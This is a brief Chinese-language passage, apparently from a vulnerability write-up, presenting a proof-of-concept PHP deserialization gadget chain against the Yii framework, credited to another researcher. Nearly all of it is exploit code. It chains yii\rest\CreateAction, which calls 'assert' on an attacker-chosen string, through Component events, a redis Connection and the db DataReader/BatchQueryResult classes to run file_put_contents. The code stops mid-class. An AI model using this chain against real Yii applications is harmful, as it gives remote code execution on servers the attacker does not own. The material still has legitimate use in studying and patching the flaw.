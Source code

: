 
## 漏洞利用
参考Macchiato师傅的POC：
```php
<?php

namespace yii\rest{
    class CreateAction{
        public $checkAccess;
        public $id;

        public function __construct()
        {
            $this->checkAccess = "assert";
            $this->id = "file_put_contents('test.php','test')";
        }
    }
}

namespace yii\base{
    use yii\rest\CreateAction;
    class Component{
        private $_events;

        public function __construct()
        {
            $this->_events = ["afterOpen" => [[[new CreateAction(), "run"], "a"]]];
        }
    }
}

namespace yii\redis{
    use yii\base\Component;
    class Connection extends Component{
        public $redisCommands;
        public $database = null;
        public $port = 0;

        public function __construct()
        {
            $this->redisCommands = ["CLOSE CURSOR"];
            $this->database = null;
            $this->port = 3336;
            parent::__construct();
        }
    }
}

namespace yii\db{
    use yii\redis\Connection;
    class DataReader{
        private $_statement;

        public function __construct()
        {
            $this->_statement = new Connection();
        }
    }
    class BatchQueryResult{
        private $_dataReader;

        public function __construct()
        {
```